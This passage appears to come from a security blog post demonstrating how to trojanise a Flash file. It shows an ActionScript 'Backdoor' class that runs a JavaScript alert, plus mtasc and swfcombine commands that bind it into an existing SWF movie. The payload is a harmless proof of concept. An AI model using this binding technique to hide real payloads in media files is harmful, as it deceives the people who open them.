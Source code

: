     class Backdoor {
      function Backdoor() {
      }

      static function main(mc) {
        getURL("javascript:alert('hello from backdoor')");
      }
    }

    Yes, this is my initial script. The next stage was to compile it to an one-frame SWF file. Than all I needed to do is to bind both my backdoor and "The Corruptibles" movie clip into a single file.

    c:\Mtasc\mtasc.exe -swf backdoor.swf -main -header 500:365:24 backdoor.as
    c:\Swftools\swfcombine.exe -o The_Corruptibles_backdoored.swf -T backdoor.swf The_Corruptibles.swf

_"Voila! There is my backdoor, trojan or virus. So now what? Hard to say!"_

